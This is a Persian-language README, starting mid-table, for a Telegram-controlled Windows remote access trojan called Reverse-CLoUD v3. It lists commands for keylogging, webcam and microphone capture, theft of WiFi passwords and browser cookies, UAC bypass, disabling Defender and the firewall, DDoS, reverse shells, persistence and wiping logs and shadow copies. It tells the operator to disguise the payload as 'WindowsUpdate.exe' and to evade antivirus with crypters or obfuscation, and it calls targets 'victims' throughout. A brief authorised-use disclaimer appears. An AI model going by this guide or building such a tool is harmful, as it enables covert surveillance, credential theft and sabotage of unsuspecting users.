| `/scheduledtasks` | تسک‌های زمان‌بندی‌شده |
| `/environment` | متغیرهای محیطی |
| `/hostsfile` | فایل hosts |
| `/dnscache` | کش DNS |
| `/arptable` | جدول ARP |
| `/windowsversion` | نسخه ویندوز |
| `/installedapps` | اپ‌های نصب‌شده |
| `/startupprograms` | برنامه‌های استارتاپ |
| `/recentfiles` | فایل‌های اخیر |
| `/cmdhistory` | تاریخچه CMD |
| `/powershellhistory` | تاریخچه PowerShell |
| `/batteryinfo` | اطلاعات باتری |
| `/sounddevices` | دستگاه‌های صوتی |
| `/usbdevices` | دستگاه‌های USB |
| `/stats` | آمار ربات |

### 👁️ جاسوسی

| دستور | توضیح |
|--------|-------|
| `/keylogstart` | شروع کیلاگر |
| `/keylogstop` | توقف کیلاگر |
| `/keylogget` | دریافت لاگ کلیدها |
| `/screenshot` | اسکرین‌شات |
| `/screenshotactive` | اسکرین‌شات پنجره فعال |
| `/webcam` | عکس از وب‌کم |
| `/mic [sec]` | ضبط میکروفون |
| `/wifipasswords` | رمزهای WiFi |
| `/browsercookies` | کوکی مرورگرها |
| `/clipboard` | محتوای کلیپ‌بورد |
| `/location` | موقعیت جغرافیایی |
| `/bluetoothscan` | اسکن بلوتوث |

### 🎮 کنترل سیستم

| دستور | توضیح |
|--------|-------|
| `/run` | اجرای CMD |
| `/runbg` | اجرا در پس‌زمینه |
| `/execute` | اجرای فایل |
| `/kill <pid>` | کشتن پروسه |
| `/killall <name>` | کشتن همه با نام |
| `/suspend <pid>` | تعلیق پروسه |
| `/resume <pid>` | ادامه پروسه |
| `/priority <pid> <p>` | تنظیم اولویت |
| `/restart` | ری‌استارت |
| `/shutdown` | خاموش کردن |
| `/logout` | خروج کاربر |
| `/lock` | قفل کردن |
| `/wallpaper <path>` | تغییر والپیپر |
| `/settime` | تنظیم زمان |
| `/renamepc <name>` | تغییر نام PC |
| `/adduser` | افزودن کاربر |
| `/deluser` | حذف کاربر |
| `/changepassword` | تغییر رمز |
| `/hidefile` | مخفی کردن فایل |
| `/unhidefile` | نمایش فایل |
| `/tree <path>` | درخت پوشه‌ها |
| `/bootmanager` | مدیریت بوت |
| `/drivermanager` | مدیریت درایور |
| `/powerscheme` | طرح برق |
| `/volume` | صدا |
| `/brightness` | روشنایی |
| `/screenrotate` | چرخش صفحه |
| `/taskbarhide` | مخفی Taskbar |
| `/desktopicons` | آیکون‌های دسکتاپ |
| `/systeminfogui` | باز کردن msinfo32 |
| `/networkgui` | باز کردن ncpa.cpl |
| `/processgui` | باز کردن Task Manager |
| `/filegui` | باز کردن Explorer |
| `/cmdgui` | باز کردن CMD |
| `/reggui` | باز کردن Registry |
| `/eventgui` | باز کردن Event Viewer |
| `/servicegui` | باز کردن Services |

### 📁 فایل‌ها

| دستور | توضیح |
|--------|-------|
| `/upload [path]` | دریافت فایل از تلگرام |
| `/download <path>` | ارسال فایل به تلگرام |
| `/downloadurl <url> <path>` | دانلود از اینترنت |
| `/delete <path>` | حذف فایل |
| `/find <name>` | جستجوی فایل |
| `/ls [path]` | لیست فایل‌ها |
| `/copy <src> <dst>` | کپی |
| `/move <src> <dst>` | انتقال |
| `/rename <old> <new>` | تغییر نام |
| `/mkdir <path>` | ساخت پوشه |
| `/zip <folder> <out>` | زیپ |
| `/unzip <file> <path>` | از زیپ دربیار |
| `/fileproperties <path>` | اطلاعات فایل |
| `/filehash <path>` | هش فایل |

### 🔓 افزایش دسترسی

| دستور | توضیح |
|--------|-------|
| `/uac` | دور زدن UAC |
| `/uacadvanced` | دور زدن پیشرفته |
| `/system` | دسترسی SYSTEM |
| `/disabledefender` | غیرفعال Defender |
| `/disablefirewall` | غیرفعال فایروال |
| `/addadmin <user>` | ارتقا به ادمین |
| `/hiddenuser <u> <p>` | کاربر مخفی |

### 🌐 شبکه

| دستور | توضیح |
|--------|-------|
| `/scanports <ip> [range]` | اسکن پورت |
| `/scannetwork` | اسکن شبکه محلی |
| `/ddos <ip> <port> <sec>` | DDoS |
| `/checkinternet` | تست اینترنت |
| `/wifiscan` | اسکن WiFi |
| `/dnschange <p> [s]` | تغییر DNS |
| `/proxy <ip> <port>` | تنظیم پروکسی |
| `/reverseshell <ip> <port>` | شل معکوس |
| `/bindshell <port>` | شل bind |
| `/netstat` | netstat |
| `/ping <host>` | ping |
| `/whois <domain>` | whois |

### 🛡️ ماندگاری

| دستور | توضیح |
|--------|-------|
| `/persist` | نصب ماندگاری |
| `/persistcheck` | بررسی ماندگاری |
| `/unpersist` | حذف ماندگاری |
| `/wipetraces` | پاک‌سازی ردپا |

### 💥 تخریب

| دستور | توضیح |
|--------|-------|
| `/clearlogs` | پاک کردن لاگ‌ها |
| `/deleteshadows` | حذف Shadow Copy |
| `/suicide` | خودکشی ربات |

### ❓ راهنما

| دستور | توضیح |
|--------|-------|
| `/help` | راهنمای کامل |

---

## 💥 Persistent Shells (مهمترین ویژگی)

این ویژگی باعث می‌شه که `cd` و `ls` بین دستورات حفظ بشن، **بدون نیاز به هر بار وارد شدن به پوشه**.

### مثال PowerShell پایدار

```
/ps1 cd C:\Users              → 📁 C:\Users
/ps1 ls                       → لیست فایل‌های C:\Users
/ps1 cd Public                → 📁 C:\Users\Public
/ps1 Get-Process              → لیست پروسه‌ها
/ps1 pwd                      → C:\Users\Public
```

**هر دستور از آخرین مسیر اجرا می‌شه!**

### مثال CMD پایدار

```
/cmd1 cd C:\Windows           → 📁 C:\Windows
/cmd1 dir                     → لیست فایل‌های C:\Windows
/cmd1 cd System32             → 📁 C:\Windows\System32
/cmd1 ipconfig                → از مسیر C:\Windows\System32
```

### دستورات مفید

```
/pwd                          → مسیر فعلی PowerShell
/cwd                          → مسیر فعلی CMD
```

### نکته مهم

- **PowerShell** و **CMD** هر کدوم شل جداگانه با مسیر جداگانه دارن
- اگه می‌خوای هر دو رو یه مسیر بذاری، هر کدوم رو جدا `cd` بزن
- مسیر توی فایل `ps_cwd.txt` و `cmd_cwd.txt` ذخیره می‌شه و بعد از ری‌استارت هم می‌مونه

---

## 📤 آپلود و دانلود فایل

### آپلود (از تلگرام به قربانی)

#### روش ۱: ساده

```
/upload
```

بعد فایل رو بفرست. فایل توی **مسیر فعلی PowerShell** ذخیره می‌شه.

#### روش ۲: با مسیر مشخص

```
/upload C:\Users\Public
```

بعد فایل رو بفرست. فایل توی `C:\Users\Public` ذخیره می‌شه.

#### روش ۳: با نام مشخص

```
/upload C:\Users\Public\myfile.exe
```

بعد فایل رو بفرست. با این اسم ذخیره می‌شه.

### دانلود (از قربانی به تلگرام)

```
/download C:\secret.txt
```

فایل مستقیم توی چت تلگرام میاد.

### محدودیت‌ها

| مورد | مقدار |
|------|-------|
| حداکثر حجم فایل | ۵۰ مگابایت (محدودیت تلگرام) |
| زمان انتظار آپلود | ۵ دقیقه |
| پسوند پایتون | بلاک شده |

### نکات

- اگه `/upload` بزنی و مسیر نامعتبر باشه، خودش به مسیر فعلی PS برمی‌گرده
- اگه مسیر دسترسی نوشتن نداشت، توی پوشه‌ی temp ذخیره می‌شه
- فایل‌های `python.exe` و `pythonw.exe` بلاک شده‌اند (محافظت)

---

## 🛡️ ماندگاری (Persistence)

### روش‌های موجود (۳۰ روش امن)

| # | روش | توضیح |
|---|-----|-------|
| 1-5 | Registry HKCU | Run, RunOnce, RunServices, Policies, Environment |
| 6-9 | Task Scheduler | onlogon, onidle, onevent, daily |
| 10-11 | Startup Folder | User + Common |
| 12-14 | Backups | SAFE_DIR, HIDDEN_DIR, Temp |
| 15 | Attributes | Hidden + System |
| 16 | Defender Exclusion | پوشه‌ی SAFE |
| 17 | WMI Event | Event Subscription |
| 18 | Desktop Shortcut | شورتکات روی دسکتاپ |
| 19-20 | RunOnceEx + Windows Load | رجیستری اضافی |

### نصب ماندگاری

```
/persist
```

### بررسی ماندگاری

```
/persistcheck
```

### حذف ماندگاری

```
/unpersist
```

### ⚠️ نکات امنیتی

- **فقط وقتی exe باشه کار می‌کنه** — اگه با `python s2.py` اجرا کنی، ماندگاری نصب نمی‌شه (برای امنیت پایتون)
- همه چیز توی `HKCU` (User) هست، نیازی به ادمین نیست
- مسیر امن: `%APPDATA%\Microsoft\Windows\SystemHealth`

---

## 🔐 نکات امنیتی

### ✅ کارهایی که کد انجام می‌ده

- کپی خودش توی `SAFE_DIR` (فقط وقتی exe باشه)
- ثبت توی Registry HKCU (user-level)
- ثبت Task Scheduler (user-level)
- اضافه کردن خودش به Defender Exclusion (فقط پوشه‌ی خودش)
- حذف ردپا با `/wipetraces`

### ❌ کارهایی که کد **نمی‌کنه**

- ❌ حذف فایل‌های پایتون
- ❌ دست زدن به `python.exe` یا `pythonw.exe`
- ❌ غیرفعال کردن UAC (به‌طور پیش‌فرض)
- ❌ غیرفعال کردن System Restore
- ❌ حذف Shadow Copies (بدون دستور صریح)
- ❌ فرمت درایو
- ❌ تغییر Boot Config
- ❌ آسیب به فایل‌های سیستمی

### 🛡️ محافظت‌های داخلی

```python
# هر عملیاتی روی فایل چک می‌شه:
def is_python_file(path):
    # اگه مسیر به python.exe یا فایل‌های پایتون اشاره کنه، بلاک می‌شه

def is_safe_path(path):
    # اگه مسیر توی System32 یا SysWOW64 باشه، بلاک می‌شه
```

### ⚠️ هشدار

این ابزار **فقط برای تست امنیتی روی سیستم خودت** یا سیستم‌هایی که **مجوز کتبی** داری مجازه. استفاده‌ی غیرمجاز **جرم کیفری**ه.

---

## 🔧 عیب‌یابی

### مشکل ۱: ربات جواب نمی‌ده

| علت | راه‌حل |
|------|-------|
| توکن اشتباه | توکن رو از BotFather دوباره بگیر |
| Admin ID اشتباه | از userinfobot بگیر |
| اینترنت قطع | اینترنت رو چک کن |
| فایروال | پورت خروجی 443 باید باز باشه |

### مشکل ۲: Permission Denied

| علت | راه‌حل |
|------|-------|
| دسترسی نداری | با ادمین اجرا کن |
| فایل در حال استفاده | فایل رو ببند |
| مسیر محافظت‌شده | مسیر دیگه بذار |

### مشکل ۳: PowerShell جواب نمی‌ده

```bash
# تست دستی
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "pwd"
```

اگه این کار نکرد، مشکل از Windows Policy هست:

```bash
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser
```

### مشکل ۴: CMD جواب نمی‌ده

پوشه‌ی `SAFE_DIR` رو چک کن:

```bash
dir "%APPDATA%\Microsoft\Windows\SystemHealth"
```

فایل‌های `cmd_bootstrap.bat` و `cmd_cwd.txt` باید باشن.

### مشکل ۵: exe کار نمی‌کنه

با `--console` بساز تا خطا ببینی:

```bash
pyinstaller --onefile --console --name "WindowsUpdate_test" s2.py
```

بعد `dist\WindowsUpdate_test.exe` رو اجرا کن.

### مشکل ۶: آنتی‌ویروس پاکش می‌کنه

1. توی Windows Defender → Exclusions → فایل exe رو اضافه کن
2. یا از crypter استفاده کن
3. یا کد رو obfuscate کن

### مشکل ۷: فایل exe حجمش زیاده

از UPX استفاده کن:

```bash
pip install upx
pyinstaller --onefile --noconsole --upx-dir "C:\upx" s2.py
```

### مشکل ۸: Persistent Shells بعد از ری‌استارت ریست می‌شن

طبیعیه — هر بار که کد اجرا می‌شه، فایل `ps_cwd.txt` رو می‌خونه. اگه فایل پاک شده باشه، به مسیر پیش‌فرض برمی‌گرده.

---

## 📂 ساختار فایل

### ساختار پروژه

```
FatRat/
├── s2.py                    ← کد اصلی
├── requirements.txt         ← کتابخانه‌ها
├── README.md                ← این فایل
├── build/                   ← فایل‌های موقت PyInstaller
├── dist/
│   └── WindowsUpdate.exe   ← فایل نهایی
└── WindowsUpdate.spec       ← تنظیمات PyInstaller
```

### ساختار روی سیستم قربانی

```
%APPDATA%\Microsoft\Windows\
├── SystemHealth\                    ← SAFE_DIR
│   ├── sys_update.exe              ← کپی exe
│   ├── backup.exe                  ← نسخه پشتیبان
│   ├── ps_cwd.txt                  ← مسیر PowerShell
│   ├── ps_input.ps1                ← ورودی PS
│   ├── ps_output.txt               ← خروجی PS
│   ├── ps_done.flag                ← فلگ PS
│   ├── cmd_cwd.txt                 ← مسیر CMD
│   ├── cmd_input.bat               ← ورودی CMD
│   ├── cmd_output.txt              ← خروجی CMD
│   ├── cmd_done.flag               ← فلگ CMD
│   ├── bootstrap.ps1               ← اسکریپت راه‌انداز PS
│   └── cmd_bootstrap.bat           ← اسکریپت راه‌انداز CMD
└── Caches\{8F4E2D1A-...}\          ← HIDDEN_DIR
    └── backup.exe
```

---

## ❓ سوالات متداول

### ❓ قربانی باید پایتون داشته باشه؟

❌ **نه** — اگه با PyInstaller exe بگیری، همه چیز داخلشه.

### ❓ قربانی باید کتابخانه نصب کنه؟

❌ **نه** — همه چیز داخل exe هست.

### ❓ قربانی باید اینترنت داشته باشه؟

✅ **بله** — برای اتصال به تلگرام.

### ❓ آنتی‌ویروس گیر می‌ده؟

⚠️ **احتمالاً** — باید obfuscate کنی یا از crypter استفاده کنی.

### ❓ بعد از ری‌استارت، شل‌ها حفظ می‌شن؟

✅ **بله** — توی `ps_cwd.txt` و `cmd_cwd.txt` ذخیره می‌شن.

### ❓ می‌تونم چند قربانی رو کنترل کنم؟

❌ **نه به‌طور همزمان** — هر کد یه ربات جدا با یه توکن می‌خواد.

### ❓ چطور فایل رو بفرستم؟

فقط `/upload` بزن بعد فایل رو از تلگرام بفرست.

### ❓ چطور فایل بگیرم؟

`/download C:\path\to\file.txt`

### ❓ پایتون روی سیستم من خراب می‌شه؟

❌ **نه** — کد Python-Safe هست. هیچ فایل پایتونی رو تغییر نمی‌ده.

### ❓ سیستم قربانی خراب می‌شه؟

❌ **نه** — ماندگاری‌ها فقط user-level هستن. تنظیمات حیاتی دست نمی‌خورن.

### ❓ چطور پاکش کنم؟

`/unpersist` بزن تا ماندگاری پاک بشه. یا `/suicide` برای خروج کامل.

### ❓ حداکثر تعداد دستور؟

نامحدود — هر چند تا بخوای.

### ❓ سرعت ربات چقدره؟

معمولاً ۱-۲ ثانیه برای هر دستور.

### ❓ می‌تونم ربات رو تغییر بدم؟

✅ **بله** — کد کاملاً بازه، می‌تونی دستور اضافه کنی.

---

## 📞 ارتباط

| پلتفرم | لینک |
|--------|------|
| Telegram | [@lxxcloud](https://t.me/lxxcloud) |
| GitHub | [The-Lxx-CLoUD](https://github.com/The-Lxx-CLoUD) |

---

## ⚖️ سلب مسئولیت

> این ابزار **فقط برای اهداف آموزشی و تست امنیتی** روی سیستم‌های خودت یا سیستم‌هایی که **مجوز کتبی** داری طراحی شده.
>
> استفاده‌ی غیرمجاز از این ابزار **جرم کیفری** محسوب می‌شه و نویسنده **هیچ مسئولیتی** در قبال سوءاستفاده نداره.
>
> با استفاده از این کد، **مسئولیت کامل** به عهده‌ی خودته.

---

## 🎯 نسخه

**Reverse-CLoUD v3 - Merged Edition**
- Python Safe
- System Safe
- Persistent Shells
- Simple Upload

---

**ساخته شده با ❤️ توسط Lxx CLoUD**
